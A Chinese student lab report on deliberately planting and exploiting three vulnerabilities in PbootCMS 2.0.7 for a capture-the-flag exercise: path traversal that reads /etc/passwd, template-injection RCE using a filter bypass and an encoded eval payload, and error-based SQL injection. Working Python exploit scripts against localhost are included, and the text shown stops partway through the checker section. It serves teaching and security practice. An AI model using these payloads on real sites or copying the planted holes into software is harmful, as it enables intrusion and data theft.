# 第12组——基于开源项目 PbootCMS2.07 设计 WEB 安全漏洞并进行利用

- [第12组——基于开源项目 PbootCMS2.07 设计 WEB 安全漏洞并进行利用](#第12组基于开源项目-pbootcms207-设计-web-安全漏洞并进行利用)
  - [一、实验环境](#一实验环境)
    - [（一）开发环境](#一开发环境)
    - [（二）项目运行环境](#二项目运行环境)
    - [（三）脚本运行环境](#三脚本运行环境)
    - [（四）需求分析](#四需求分析)
  - [二、实验步骤](#二实验步骤)
    - [（一）场景设计开发](#一场景设计开发)
      - [1.功能实现](#1功能实现)
      - [2.网站架构](#2网站架构)
      - [3.数据库设计](#3数据库设计)
      - [4.需要使用到的 API 接口](#4需要使用到的-api-接口)
        - [4.1 漏洞二 —— 涉及的重要接口链接](#41-漏洞二--涉及的重要接口链接)
          - [留言提交接口](#留言提交接口)
        - [4.2 漏洞三 —— 涉及的重要接口链接](#42-漏洞三--涉及的重要接口链接)
          - [4.2.1 后台登录验证接口](#421-后台登录验证接口)
          - [4.2.2 新闻新增接口](#422-新闻新增接口)
        - [4.3 其他接口](#43-其他接口)
          - [4.3.1 留言展示接口](#431-留言展示接口)
          - [4.3.2 后台登录接口](#432-后台登录接口)
          - [4.3.3 新闻新增接口](#433-新闻新增接口)
          - [4.3.4 新闻展示接口 (2.0)](#434-新闻展示接口-20)
      - [5.本机 PbootCMS 下载安装环境配置](#5本机-pbootcms-下载安装环境配置)
    - [（二）BuildIt](#二buildit)
      - [1.漏洞设计](#1漏洞设计)
        - [1.1 漏洞一 —— 前台任意文件读取漏洞](#11-漏洞一--前台任意文件读取漏洞)
        - [1.2 漏洞二 —— 前台 RCE](#12-漏洞二--前台-rce)
        - [1.3 漏洞三 —— 后台 sql 注入](#13-漏洞三--后台-sql-注入)
      - [2. Exp 设计— Build 阶段的 exp](#2-exp-设计-build-阶段的-exp)
        - [2.1 漏洞一](#21-漏洞一)
        - [2.2 漏洞二](#22-漏洞二)
        - [2.3 漏洞三](#23-漏洞三)
      - [3.Check 设计](#3check-设计)
        - [3.1 漏洞一](#31-漏洞一)
        - [3.2 漏洞二](#32-漏洞二)
        - [3.3 漏洞三](#33-漏洞三)
    - [（三）BreakIt — 队员互相破解漏洞（做题人视角的 WP & EXP)](#三breakit--队员互相破解漏洞做题人视角的-wp--exp)
      - [1.BreakIt-漏洞一](#1breakit-漏洞一)
      - [2.BreakIt-漏洞二](#2breakit-漏洞二)
      - [3.BreakIt-漏洞三](#3breakit-漏洞三)
    - [（四）FixIt ——对应 awdFix 文件夹，是 Fix 之后的 docker](#四fixit-对应-awdfix-文件夹是-fix-之后的-docker)
      - [1.FixIt-漏洞一](#1fixit-漏洞一)
      - [2.FixIt-漏洞二](#2fixit-漏洞二)
      - [3.FixIt-漏洞三](#3fixit-漏洞三)
    - [（五）使用 Docker 将环境打包](#五使用-docker-将环境打包)
      - [1.使用 Dockerfile 定制镜像](#1使用-dockerfile-定制镜像)
      - [2.编写 Dockerfile](#2编写-dockerfile)
      - [3.测试 Dockerfile](#3测试-dockerfile)
      - [4.构建 Docker Compose](#4构建-docker-compose)
      - [5. Docker 启动](#5-docker-启动)
  - [三、遇到的问题与解决办法](#三遇到的问题与解决办法)
    - [（一）解决 Visual Studio Code 下载慢的问题](#一解决-visual-studio-code-下载慢的问题)
    - [（二）连接服务器失败](#二连接服务器失败)
    - [（三）为漏洞二设计 flag 时出现绕过失败的情况](#三为漏洞二设计-flag-时出现绕过失败的情况)
    - [（四）网页加载出错](#四网页加载出错)
    - [（五）无法顺利使用 docker](#五无法顺利使用-docker)
  - [参考链接](#参考链接)
  

```mermaid

gantt
    title 第12组团队实践训练
    dateFormat  YYYY-MM-DD
    section 系统设计
    场景搭建      :done, a1, 2022-07-04 , 3d

    
    section 漏洞设计
    漏洞1设计     :done,a2,after a1  , 9d
    漏洞2设计     :done,a3,after a1  , 7d
    漏洞3设计     :done,a4,after a1  , 8d

    
    section 项目打包
    项目打包      :done,a5,after a2, 3d
    
    section 队友互相破解漏洞
    破解漏洞1     :done,after a5, 2d
    破解漏洞2     :done,after a5, 3d
    破解漏洞3   :done,after a5, 2d
```



***备注：所有组员全部都非常积极认真地完成任务，每个人担任的角色都至关重要，每个人的任务量都很重，并且因为各个板块的联系非常紧密，个人的实际任务量远超上图划定的界限。在此期间，通过频繁开组会沟通迭代，用将近一个月的时间较为圆满地完成了此次实践任务。***

## 一、实验环境

### （一）开发环境

本次开发 PHP 和 MariaDB 均基于 XAMPP 7.4.27-1 提供

- Apache/2.4.52 (Unix)
- OpenSSL/1.1.1m
- PHP/7.4.27
- mod_perl/2.0.11
- Perl/v5.32.1
- MariaDB/10.4.2
- PhpStorm/2021.3.3

### （二）项目运行环境

- Apache/2.4.29 (Ubuntu)
- PHP/7.2.11
- Mysql/5.7.24

### （三）脚本运行环境

本次实验脚本开发环境以及运行环境均基于如下环境

- Visual Studio Code/1.69.0
- Python

### （四）需求分析

`web` 应用服务场景

- BuildIt
  - EXP 通过率
  - 能力符合度
  - 功能实现度-完整性
    - 可用性
    - 实用性
    - 仿真性
  - 文档实现度
    - 完整性
    - 规范性
  - 开发规范性
- BreakIt
  - BreakIt 环节的技术总结报告
  - EXP
- FixIt
  - FixIt 技术总结报告（源码级别漏洞修复）

## 二、实验步骤

### （一）场景设计开发

#### 1.功能实现

本系统为 `CMS` 系统，基于免费开源的 `PbootCMS` 模板，基于模板进行按需设计与取用。

其中，网站前台功能中 **在线留言** ，**登录**，网站后台管理中的 **登录/退出登录** ， **文章内容管理** 以及 **扩展内容管理** 等都是适合设计漏洞的地方。

#### 2.网站架构

网站的响应流程如下图所示：



网站的系统架构如下图所示：



#### 3.数据库设计



在模板基础上 **按需取用与添加**

留言信息表结构（后续漏洞利用）：

```mysql
-- 表的结构 `ay_message`
--

DROP TABLE IF EXISTS `ay_message`;
CREATE TABLE `ay_message` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT COMMENT '编号',
  `acode` varchar(20) NOT NULL COMMENT '区域编码',
  `contacts` varchar(10) DEFAULT NULL COMMENT '联系人',
  `mobile` varchar(12) DEFAULT NULL COMMENT '联系电话',
  `content` varchar(500) DEFAULT NULL COMMENT '留言内容',
  `user_ip` varchar(11) NOT NULL DEFAULT '0' COMMENT 'IP地址',
  `user_os` varchar(30) NOT NULL COMMENT '操作系统',
  `user_bs` varchar(30) NOT NULL COMMENT '浏览器',
  `recontent` varchar(500) NOT NULL COMMENT '回复内容',
  `status` char(1) NOT NULL DEFAULT '1' COMMENT '是否前台显示',
  `create_user` varchar(30) NOT NULL COMMENT '创建人员',
  `update_user` varchar(30) NOT NULL COMMENT '更新人员',
  `create_time` datetime NOT NULL COMMENT '创建时间',
  `update_time` datetime NOT NULL COMMENT '更新时间',
  PRIMARY KEY (`id`),
  KEY `ay_message_acode` (`acode`)
) ENGINE=MyISAM AUTO_INCREMENT=63 DEFAULT CHARSET=utf8;
```



`sql` 注入漏洞的 `flag`（新增）

```mysql
-- 表的结构 `ay_aFlag`
--

DROP TABLE IF EXISTS `ay_aFlag`;
CREATE TABLE `ay_aFlag` (
  `flag` char(128) DEFAULT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;

--
-- 转存表中的数据 `ay_aFlag`
--

INSERT INTO `ay_aFlag` (`flag`) VALUES
('flag{thsillllllllllllllsflag}');
```

文章内容表结构（后续漏洞利用）：

```mysql
DROP TABLE IF EXISTS `ay_content`;
CREATE TABLE `ay_content` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT COMMENT '编号',
  `acode` varchar(20) NOT NULL COMMENT '区域',
  `scode` varchar(20) NOT NULL COMMENT '内容栏目',
  `subscode` varchar(20) NOT NULL COMMENT '副栏目',
  `title` varchar(100) NOT NULL COMMENT '标题',
  `titlecolor` varchar(7) NOT NULL COMMENT '标题颜色',
  `subtitle` varchar(100) NOT NULL COMMENT '副标题',
  `filename` varchar(50) NOT NULL COMMENT '自定义文件名',
  `author` varchar(30) NOT NULL COMMENT '作者',
  `source` varchar(30) NOT NULL COMMENT '来源',
  `outlink` varchar(100) NOT NULL COMMENT '外链地址',
  `date` datetime NOT NULL COMMENT '发布日期',
  `ico` varchar(100) NOT NULL COMMENT '缩略图',
  `pics` varchar(1000) NOT NULL COMMENT '多图片',
  `content` mediumtext NOT NULL COMMENT '内容',
  `tags` varchar(500) NOT NULL COMMENT 'tag关键字',
  `enclosure` varchar(100) NOT NULL COMMENT '附件',
  `keywords` varchar(200) NOT NULL COMMENT '关键字',
  `description` varchar(500) NOT NULL COMMENT '描述',
  `sorting` int(10) unsigned NOT NULL DEFAULT 255 COMMENT '内容排序',
  `status` char(1) NOT NULL DEFAULT '1' COMMENT '状态',
  `istop` char(1) NOT NULL DEFAULT '0' COMMENT '是否置顶',
  `isrecommend` char(1) NOT NULL DEFAULT '0' COMMENT '是否推荐',
  `isheadline` char(1) NOT NULL DEFAULT '0' COMMENT '是否头条',
  `visits` int(10) unsigned NOT NULL DEFAULT 0 COMMENT '访问数',
  `likes` int(10) unsigned NOT NULL DEFAULT 0 COMMENT '点赞数',
  `oppose` int(10) unsigned NOT NULL DEFAULT 0 COMMENT '反对数',
  `create_user` varchar(30) NOT NULL COMMENT '创建人员',
  `update_user` varchar(20) NOT NULL COMMENT '更新人员',
  `create_time` datetime NOT NULL COMMENT '创建时间',
  `update_time` datetime NOT NULL COMMENT '更新时间',
  PRIMARY KEY (`id`),
  KEY `ay_content_scode` (`scode`),
  KEY `ay_content_subscode` (`subscode`),
  KEY `ay_content_acode` (`acode`),
  KEY `ay_content_filename` (`filename`),
  KEY `ay_content_date` (`date`),
  KEY `ay_content_sorting` (`sorting`),
  KEY `ay_content_status` (`status`)
) ENGINE=MyISAM AUTO_INCREMENT=58 DEFAULT CHARSET=utf8;
```

用户表结构：

```mysql
-- 表的结构 `ay_user`
--

DROP TABLE IF EXISTS `ay_user`;
CREATE TABLE `ay_user` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT COMMENT '用户编号',
  `ucode` varchar(20) NOT NULL COMMENT '用户编码',
  `username` varchar(30) NOT NULL COMMENT '用户账号',
  `realname` varchar(30) NOT NULL COMMENT '真实名字',
  `password` char(32) NOT NULL COMMENT '用户密码',
  `status` char(1) NOT NULL DEFAULT '1' COMMENT '是否启用',
  `login_count` int(10) unsigned NOT NULL DEFAULT 0 COMMENT '登录次数',
  `last_login_ip` varchar(11) NOT NULL DEFAULT '0' COMMENT '最后登录IP',
  `create_user` varchar(30) NOT NULL COMMENT '添加人员',
  `update_user` varchar(30) NOT NULL COMMENT '更新用户',
  `create_time` datetime NOT NULL COMMENT '创建时间',
  `update_time` datetime NOT NULL COMMENT '更新时间',
  PRIMARY KEY (`id`),
  UNIQUE KEY `ay_user_ucode` (`ucode`),
  KEY `ay_user_username` (`username`)
) ENGINE=MyISAM AUTO_INCREMENT=3 DEFAULT CHARSET=utf8;
```



#### 4.需要使用到的 API 接口

本系统接口包含指定内容详情接口、搜索内容接口、留言提交接口、表单提交接口等，**本项目进行漏洞利用 exp 以及 check 设计时涉及的重要接口** 包含：

##### 4.1 漏洞二 —— 涉及的重要接口链接

###### 留言提交接口

**接口功能**

> 提交留言

**URL**

<http://127.0.0.1/?message/>

**支持格式**

> JSON

**HTTP请求方式**

> POST

**请求参数**

> | 参数     | 是否必须 | 说明   |
> | :------- | :------- | ------ |
> | contacts | 是       | 联系人 |
> | mobile   | 是       | 手机   |
> | content  | 是       | 内容   |

**返回字段**

> | 返回字段 | 说明                                                  |
> | :------- | :---------------------------------------------------- |
> | code     | 返回结果状态， 1 ：留言提交成功！；0 ：留言提交失败！ |

##### 4.2 漏洞三 —— 涉及的重要接口链接

###### 4.2.1 后台登录验证接口

**接口功能**

> 后台登录验证

**URL**

<http://127.0.0.1/admin.php?p=/Index/login>

**支持格式**

> JSON

**HTTP请求方式**

> POST

**请求参数**

> | 参数      | 是否必须 | 说明         |
> | :-------- | :------- | ------------ |
> | username  | 是       | 用户名       |
> | password  | 是       | 密码         |
> | formcheck | 是       | 身份验证标志 |

**返回值**

> {"code":1,"data":"\/admin.php?p=\/Index\/home","rowtotal":1}

**字段解释**

> | 返回字段 | 说明                                        |
> | :------- | :------------------------------------------ |
> | code     | 返回结果状态， 1 ：登录成功；0 ：登录失败。 |

###### 4.2.2 新闻新增接口

**接口功能**

> 提交新增新闻

**URL**

<http://127.0.0.1/admin.php?p=/Content/add/mcode/2>

**支持格式**

> JSON

**HTTP请求方式**

> POST

**请求参数**

> | 参数        | 是否必选 | 说明         |
> | :---------- | :------- | ------------ |
> | scode       | 是       | 内容栏目     |
> | subscode    |          | 副栏目       |
> | title       | 是       | 内容标题     |
> | titlecolor  |          | 标题颜色     |
> | subtitle    |          | 副标题       |
> | filename    |          | 自定义文件名 |
> | author      |          | 作者         |
> | source      |          | 来源         |
> | outlink     |          | 外链地址     |
> | date        |          | 发布日期     |
> | ico         |          | 缩略图       |
> | pics        |          | 多图片       |
> | content     |          | 内容         |
> | formcheck   |          | 验证标识     |
> | enclosure   |          | 附件         |
> | keywords    |          | 关键字       |
> | description |          | 描述         |
> | status      |          | 状态         |
> | tags        |          | 关键字       |

**返回值**

> 新增成功！
>
> 新增失败！

##### 4.3 其他接口

###### 4.3.1 留言展示接口

**接口功能**

> 展示留言

**URL**

<http://127.0.0.1/?gbook/>

**HTTP请求方式**

> GET

###### 4.3.2 后台登录接口

**接口功能**

> 后台登录

**URL**

<http://127.0.0.1/admin.php>

**HTTP请求方式**

> GET

###### 4.3.3 新闻新增接口

**接口功能**

> 新增新闻

**URL**

<http://127.0.0.1/admin.php?p=/Content/index/mcode/2>

**HTTP请求方式**

> GET

###### 4.3.4 新闻展示接口 (2.0)

**接口功能**

> 展示新闻

**URL**

<http://127.0.0.1/?company/>

**HTTP请求方式**

> GET

#### 5.本机 PbootCMS 下载安装环境配置

去 [官网](https://www.pbootcms.com/) 下载 PbootCMS

下载安装运行环境 [phpstudy](https://www.xp.cn/download.html)

解压并运行 `phpstudy.exe` ，如果本机没有下载 `VC9` 的话会提示下载安装 `VC9` ，安装运行即可，然后试试 `Apache` 和 `MySQL` 运行状态是否正常



在其他选项菜单-网站根目录里删掉原本带的 `php` 测试文件；

将下载好的 `PbootCMS-V3.1.6` 压缩包解压到根目录下面；

打开其他选项菜单—— `my home page` 即可看到网站正常运行：


进入后台管理系统界面 `admin.php`



默认用户名是 `admin` ，密码是 `123456` ，进入后修改密码方可查看后台主页

如果需要部署在服务器上，那么需要到官网先免费获取授权码填写到后台相应位置才能打开网站前台

在 `PbootCMS` 官网获取授权码



在后台管理系统的全局配置-参数配置里填写授权码



可以看到后台管理系统可以对前台的各种操作进行定义和控制。

### （二）BuildIt

*注：本项目基于开源项目 `pbootcms`  2.0.7 进行漏洞设计，对过往版本进行了学习参考*

#### 1.漏洞设计

##### 1.1 漏洞一 —— 前台任意文件读取漏洞

在 Docker 启动时添加命令 `RUN echo "flag{fffllllaaggggg}" > /flag`

漏洞设计在 `core\view\view.php` 中的 `parser` 函数



过滤了 `../` 和`\` ， **双写绕过** 问题。



当模板文件不在缓存中的时候，会读取 `$tpl_file` 中的内容，然后写入缓存文件中并且包含。也就是说，当 `parser` 函数的参数可以被控制的时候，就会造成一个任意文件包含。

因此，我们 **要找一个可控参数的 `parser` 调用。**

在 `apps\home\controller\SearchController.php` 中存在 `parser` ,并且`searchtpl` 可控。





测试:

`?search=&searchtpl=..././..././..././robots.txt`



两种绕过写法:

`?search=&searchtpl=..././..././..././..././..././..././..././..././etc/passwd`

`?search=&searchtpl=....//....//....//....//....//....//....//....//etc/passwd`



发现可以在此进行漏洞利用。

##### 1.2 漏洞二 —— 前台 RCE

在留言板处可以 **通过控制留言内容实现代码执行** 。

修改 `apps\api\controller\CmsController.php` 中的「addmsg 函数」：



第一个过滤，「str_replace 函数」将变量 `field_data` 中的 「pboot:if 标签」 过滤，可以用 **双写绕过** 解决。

在 `apps\home\controller\ParserController.php` 中「parserIfLabel 函数」的功能为「解析 if 条件标签」。提交的内容起初为变量 `matches[0]` ，后面将「pboot:if 标签」中的 payload 值赋给 `matches[1]` ，过滤后提取出左括号前的字符串。

```php
public function parserIfLabel($content)
{
    $pattern = '/\{pboot:if\(([^}^\$]+)\)\}([\s\S]*?)\{\/pboot:if\}/';
    $pattern2 = '/pboot:([0-9])+if/';
    if (preg_match_all($pattern, $content, $matches)) {
        $count = count($matches[0]);
        for ($i = 0; $i < $count; $i ++) {
            $flag = '';
            $out_html = '';
            $danger = false;
                
            $white_fun = array(
                'date',
                'in_array',
                'explode',
                'implode'
            );
                
            // 还原可能包含的保留内容，避免判断失效
            $matches[1][$i] = $this->restorePreLabel($matches[1][$i]);
                
            // 解码条件字符串
            $matches[1][$i] = decode_string($matches[1][$i]);
                
            // 带有函数的条件语句进行安全校验
            if (preg_match_all('/([\w]+)([\\\s]+)?\(/i', $matches[1][$i], $matches2)) {
                foreach ($matches2[1] as $value) {
                    if ((function_exists($value) || preg_match('/^eval$/i', $value)) && ! in_array($value, $white_fun)) {
                        $danger = true;
                        break;
                    }
                }
            }
                
               
            // 如果有危险函数，则不解析该IF
            if ($danger) {
                continue;
            }
                
            eval('if(' . $matches[1][$i] . '){$flag="if";}else{$flag="else";}');
            if (preg_match('/([\s\S]*)?\{else\}([\s\S]*)?/', $matches[2][$i], $matches2)) { // 判断是否存在else
                switch ($flag) {
                    case 'if': // 条件为真
                        if (isset($matches2[1])) {
                            $out_html = $matches2[1];
                        }
                        break;
                    case 'else': // 条件为假
                        if (isset($matches2[2])) {
                            $out_html = $matches2[2];
                        }
                        break;
                }
            } elseif ($flag == 'if') {
                $out_html = $matches[2][$i];
            }
                
            // 无限极嵌套解析
            if (preg_match($pattern2, $out_html, $matches3)) {
                $out_html = str_replace('pboot:' . $matches3[1] . 'if', 'pboot:if', $out_html);
                $out_html = str_replace('{' . $matches3[1] . 'else}', '{else}', $out_html);
                $out_html = $this->parserIfLabel($out_html);
            }
                
            // 执行替换
            $content = str_replace($matches[0][$i], $out_html, $content);
        }
    }
    return $content;
}
```

使用「function_exists 函数」 判断是否定义过函数，为避免 `$danger` 返回「false」，使其可以任意执行代码，引入「语言结构器 eval」 与「白名单 white_fun」进行 **安全校验** 。


**`$content` 内容可控** ，在函数名和括号间可以 **插入控制字符 `[\x00-\x20]`**，PHP 引擎会忽略这些控制字符，那么就可以绕过这个正则。

```php
preg_match_all('/([\w]+)([\\\s]+)?\(/i', $matches[1][$i], $matches2)
```

这里在 `core\basic\Model.php` ，加入新一层过滤，如果破解，同样可以 **双写绕过** 。



测试双写绕过的可行性：





> 函数 phpinfo() 可以显示出 php 所有相关信息。是排查配置 php 是否出错的主要方式之一。
>
> 函数 implied() 可以将数组元素拼接成字符串。

```shell
{pbootpbootpboot:if:if:if(implode('', ['c','a','l','l','_','u','s','e','r','_','f','u','n','c'])(implode('',['p','h','p','i','n','f','o'])))}!!!{/pbootpbootpboot:if:if:if}
```

执行 `phpinfo()` 进行测试也成功：





因此利用这一漏洞设计 Flag，编写  POC 如下：

[ascii码对照表](https://wenku.baidu.com/view/de4c332c453610661ed9f474.html) 和 [进制转换器](https://jisuan5.com/hexadecimal/?hex=10)

```shell
{pbootpbootpboot:if:if:if((eval ( chr (0x73).chr (0x79).chr (0x73).chr (0x74).chr (0x65).chr (0x6d).chr (0x28).chr (0x22).chr (0x63).chr (0x61).chr (0x74).chr (0x20).chr (0x66).chr (0x6c).chr (0x61).chr (0x67).chr (0x2e).chr (0x70).chr (0x68).chr (0x70).chr (0x22).chr (0x29).chr (0x3b))))}!!!{/pbootpbootpboot:if:if:if}
```

**提供给解题人的线索为:pbootpbootpboot:if:if:if**

##### 1.3 漏洞三 —— 后台 sql 注入



由于对  `$content`  过滤不严格导致 **可在后台新增文章处进行 `SQL` 注入**：

漏洞在 `\apps\admin\controller\content\ContentController.php` 中的 79-170 行（只截取重要部分）



其中：

```php
$description = mb_substr(strip_tags($_POST['content']), 0, 150);
```

仅对传入的  `content`  参数使用了 `strip_tags` 和 `mb_substr` 过滤，因此 `$content` 存在 `SQL` 注入。

**报错注入** 可以拿到数据库中的 flag：

> 如果使用 select (extractvalue(1,(database())))； 在 1 中查询不到 database() 的结果，但是因为没有语法错误，所以不会报错。
>
> 用 `concat` 函数拼接一个错误的 Xpath 让数据库报错得到包含查询值的字符串。

 **因此设计 POC 如下**：

```shell
testPOC' or (select extractvalue(1,concat(0x7e,(select group_concat(flag,0x7e) from pbootcms.ay_aFlag)))) or ' 
```

因为漏洞设计在后台，所以要绕过后台登录。

对数据库（包含用户名密码）的设计如下， `password` 是由原始密码经过 **两次 `MD5` 加密** 得到的：

```python
import random
import string

def generate_random_password(count, length):
    # string.ascii_letters 大小写字母， string.digits 为数字
    characters_long = list(string.ascii_letters + string.digits + "!@#$%^&*()")

    # 打乱字符串序列
    random.shuffle(characters_long)

    # 生成密码个数
    for i in range(int(count)):
        # picking random characters from the list
        password = []
        # 生成密码个数
        for b in range(length):
            password.append(random.choice(characters_long))

        # 打乱密码顺序
        random.shuffle(password)

        # 将列表转换为字符串并打印
        print("".join(password))


def main():
    length = int(input("请输入密码长度: "))
    count = int(input("请输入密码生成个数: "))
    generate_random_password(count, length)


if __name__ == '__main__':
    # 由于MD5模块在python3中被移除
    # 在python3中使用hashlib模块进行md5操作

    import hashlib

    # 待加密信息
    str = '12@aa4./(9Eb9AD)0)7'
    str='5c94a401cb982b435f603765b6cb5306'

    # 创建md5对象
    hl = hashlib.md5()

    # Tips
    # 此处必须声明encode
    # 若写法为hl.update(str)  报错为： Unicode-objects must be encoded before hashing
    hl.update(str.encode(encoding='utf-8'))

    print('MD5加密前为 ：' + str)
    print('MD5加密后为 ：' + hl.hexdigest())
```



考虑到目前情况下无法通过爆破或者注入方法拿到用户名和密码，即便拿到了也无法解密出原密码，所以：

提供给解题人的 **题目线索为：检查一下 MTJAYWE0Li8oOUViOUFEKTApNw== 看看能发现什么吧~**

*线索破解出来得到用户名为 `check` , 将 `check` 用户原密码 `12@aa4./(9Eb9AD)0)7` 进行 base64 加密得到 `MTJAYWE0Li8oOUViOUFEKTApNw==`*

#### 2. Exp 设计— Build 阶段的 exp

##### 2.1 漏洞一

根据漏洞一设计的漏洞，进行 Exp 设计，利用「request 库」直接发送数据即可。

```python
import requests
def exp(url):
    r=requests.get(url)
    flag=r.text
    return flag
if __name__ == '__main__':
    print(exp("http://127.0.0.1/?search=&searchtpl=..././..././..././..././..././..././..././..././flag"))
```

##### 2.2 漏洞二

根据漏洞二的设计，进行「Exp」设计，同样利用「request 库」，但是需要分两步执行。

1. 发送 RCE Poc

   ```python
   def postExp(url):
       post_data = {
           'contacts': '666',
           'mobile': '1008611',
           'content': '{pbootpbootpboot:if:if:if((eval ( chr (0x73).chr (0x79).chr (0x73).chr (0x74).chr (0x65).chr ('
                      '0x6d).chr (0x28).chr (0x22).chr (0x63).chr (0x61).chr (0x74).chr (0x20).chr (0x66).chr (0x6c).chr '
                      '(0x61).chr (0x67).chr (0x2e).chr (0x70).chr (0x68).chr (0x70).chr (0x22).chr (0x29).chr ('
                      '0x3b))))}!!!{/pbootpbootpboot:if:if:if} '
       }
       response = requests.post(url, data=post_data)
       if response.status_code == 200:
           print("Exp 插入成功")
           return True
       else:
           print("Exp 插入失败，请检查网站状态，response code=" + str(response.status_code))
           return False
   
   ```

2. 获取 Flag

   ```python
   def getFlag():
       r = requests.get("http://127.0.0.1/?gbook/")
       flagg = re.findall(r'''flag="(.+?)";''', r.text)
       if (len(flagg)!=0):
           print(flagg[0])
       else:
           print("Flag获取失败")
   ```

3. 主函数

   ```python
   import requests
   import re
   if __name__ == '__main__':
       url = "http://127.0.0.1/?message/"
       if postExp(url):
           getFlag()
   ```

##### 2.3 漏洞三

根据漏洞三的设计，进行 Exp 设计，分为以下几步：

1. 获取 ssrf token 以及 session id，后续登录需要校验

   ```python
   def getformCheck():
       r = requests.get("http://127.0.0.1/admin.php")
       r.encoding = 'utf-8'
       soup = BeautifulSoup(r.text, "html.parser")
       formcheck = soup.find("input", {"name": "formcheck"})['value']
       PbootSystem = r.cookies['PbootSystem']
       return formcheck, PbootSystem
   ```

2. 利用 request 库进行 post 数据，并取回 cookie，为后续步骤所用

   ```python
   def getck():
       check = getformCheck()
       headers = {
           'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) '
                         'Chrome/71.0.3578.98 Safari/537.36',
           'Cookie': 'PbootSystem=' + check[1]
       }
       url = 'http://127.0.0.1/admin.php?p=/Index/login'
       data = {
           'username': 'check',
           'password': '12@aa4./(9Eb9AD)0)7',
           'formcheck': check[0]
       }
       r = requests.post(url, data, headers=headers)
       ck = r.cookies['PbootSystem']
       return 'PbootSystem='+ck
   ```

3. 发送 Poc 到指定位置，并返回数据库报错内容

   ```python
   def senExp():
       ck = getck()
       headers = {
           'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) '
                         'Chrome/71.0.3578.98 Safari/537.36',
           'Cookie': ck
       }
       r = requests.get("http://localhost/admin.php?p=/Content/index/mcode/2", headers=headers)
       r.encoding = 'utf-8'
       soup = BeautifulSoup(r.text, "html.parser")
       formcheck = soup.find("input", {"name": "formcheck"})['value']
       url = 'http://127.0.0.1/admin.php?p=/Content/add/mcode/2'
       data = {
               "formcheck": formcheck,
               "scode": "3",
               "title": "6666",
               "tags": "",
               "author": "check",
               "source": "%E6%9C%AC%E7%AB%99",
               "ico": "",
               "upload": "",
               "pics": "",
               "upload": "",
               "subscode": "",
               "titlecolor": "%23333333",
               "subtitle": "",
               "filename": "",
               "outlink": "",
               "date": "2022-07-15+11%3A33%3A26",
               "enclosure": "",
               "upload": "",
               "keywords": "",
               "description": "",
               "status": "1",
               "content": '''testPOC' or (select extractvalue(1,concat(0x7e,(select group_concat(flag,0x7e) from 
               pbootcms.ay_aFlag)))) or ' '''
       }
       r = requests.post(url, data, headers=headers)
       return r.text
   ```

4. 获取 flag

   ```python
   def getflag():
       flagg=senExp()
       flagg = re.findall(r'''~flag{(.+?)}~''', flagg)
       return "flag{"+flagg[0]+"}"
   ```

主函数

```python
import re
import requests
from bs4 import BeautifulSoup
if __name__ == '__main__':
    print(getflag())
```

#### 3.Check 设计

Check 的主要原则也是模拟用户正常使用漏洞点的地方。

##### 3.1 漏洞一

> 对漏洞一的 `check` 主要模拟用户搜索过程。
>

- 首先在网站中正常搜索发现:

  如果能在系统内搜索到关键词，则跳转相应的页面并高亮：

  

  如果搜索不到，则显示如下界面：

  

- 所以 `check`  的思路为：基于系统中已经预先置入的一些数据，进行搜索关键词的设置。

  1. 设定两个系统中可以搜索到的关键词和一个不能搜索到的关键词：

     ```python
         keywords = {
             "PHP":1,
             "服务":1,
             "lalalaallalala":0   
         }
         ##其中 keywords 为 check 检索时搜索引擎的搜索关键字列表
         ## key 是检索的关键字 value 的含义是 如果该关键字可以被检索则赋值 1 ，如果检索不到则赋值为 0。举例来说，"PHP" 和"服务"是可以被检索到的，"lalalaallalala"是检索不到的。
     ```

     

     

     

  2. 针对关键词进行逐一检查：

     ```python
     def GetSearchState(keyword,flag):
         r = requests.get("http://127.0.0.1/?keyword=" + keyword)
         r.encoding = 'utf-8'
         soup = BeautifulSoup(r.text, "html.parser")
         if(flag==0):
             ##传入的关键字本身就是找不到的，则一定会显示“未搜索到任何数据”，所以在前端找对应的标签，找的则返回 True
             item = soup.find("div", "text-center my-5 text-secondary")
             if(item==None):
                 return False
             if(item.text=="未搜索到任何数据！"):
                 return True
             else:
                 return False
         elif(flag==1):
             ##传入的关键词是能找到的，则一定会实现页面跳转，并且测试的两个用例对应的跳转页面都有"col-12 col-sm-6 col-lg-3"标签。
             item = soup.find("div", "col-12 col-sm-6 col-lg-3")
             if(item!=None):
                 return True
             else:
                 return False
     ```

  主函数如下：

  ```python
  import requests
  from bs4 import BeautifulSoup
  if __name__ == '__main__':
      keywords = {
          "PHP":1,
          "服务":1,
          "lalalaallalala":0 
      }
      
      for i in keywords:
          if(GetSearchState(i,keywords[i])==False):
              flag=0
              break
          else:
              flag=1
      if(flag==0):
          print("Check Down")
      else:
          print("Check Up")
  ```



##### 3.2 漏洞二

> 对漏洞二的检查主要是针对用户留言模块进行模拟提交留言，并检查留言是否成功。

**为了确保每次 Check 的唯一性，对留言内容进行随机留言。每次模拟留言完成后，会获取留言列表，检查是否出现模拟留言的随机内容**。

随机留言生成函数如下，利用「keyyyy-」和「-keyyyy」封装字符串。

```python
def makeKey():
    random.seed(time)
    alp = 'abcdefghijklmnopqrstuvwxyz'
    key = random.sample(alp,10)
    key="keyyyy-"+"".join(key)+"-keyyyy"
    return key
```

发送留言函数如下

```python
def postCheck(url,makeKey):
    post_data = {
        'contacts': 'checkkkkkkkk',
        'mobile': '1101008611123',
        'content': makeKey
    }
    response = requests.post(url, data=post_data)
    if response.status_code == 200:
        return True
    else:
        return False
```

获取留言函数如下，根据固定的「keyyyy-」和「-keyyyy」定位刚刚发送的留言。

```python
def getKey():
    r = requests.get("http://127.0.0.1/?gbook/")
    if r.status_code==200:
        flagg = re.findall(r'''keyyyy-(.+?)-keyyyy''', r.text)
        return "keyyyy-"+flagg[0]+"-keyyyy"
    else:
        return "err"
```

主函数如下

```python
if __name__ == '__main__':
    url = "http://127.0.0.1/?message/"
    mkey=makeKey()
    if postCheck(url,mkey):
        if mkey==getKey():
            print("Check Up")
        else:
            print("Check Down")
    else:
        print("Check Down")
```

check2.py 的执行情况如下





##### 3.3 漏洞三

> 对于漏洞三的 check 需要模拟后台登录，然后再新增文章初进行文章的新增操作，对于文章内容去随机内容，并检查是否新增成功。
